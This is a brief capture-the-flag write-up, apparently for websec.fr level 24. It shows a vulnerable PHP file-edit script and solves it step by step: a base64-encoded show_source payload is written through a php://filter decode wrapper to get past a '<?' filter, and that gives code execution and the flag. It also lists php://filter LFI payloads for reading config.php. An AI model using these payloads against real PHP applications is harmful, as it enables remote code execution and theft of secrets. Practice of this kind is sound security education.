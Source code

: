 ```
if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}

```
OVERVIEW: Payload: qwerty.php
                  Index of ./uploads/vg4tgcn2q0ghcqr1r2vmlah1m0osm1u4/:
                  qwerty.php, which on clicking gives an option to edit the contents
                  
In Local File Inclusion,for Reading arbitrary files: php filters can be used
index.php?file=php://filter/convert.base64-encode/resource=config.php OR
index.php?file=php://filter/convert.base64-decode/resource=config.php

STEP 1: File Name= php://filter/convert.base64-decode/resource=flag.php

STEP 2: <?php show_source('/flag.php');?>.encode('base64')
OUTPUT: PD9waHAgc2hvd19zb3VyY2UoJy9mbGFnLnBocCcpOz8+

STEP 3: Payload in flag.php: PD9waHAgc2hvd19zb3VyY2UoJy9mbGFnLnBocCcpOz8+
        Save changes
STEP 4: Go to http://websec.fr/level24/uploads/nj2o7biqk0m290nq4bunuue3fsijii96/flag.php

STEP 5: Use Ctrl+Shift+I(Inspect tool)
OUTPUT: 
<!--?php

// WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}

-->


REFERENCE: https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md
                                    
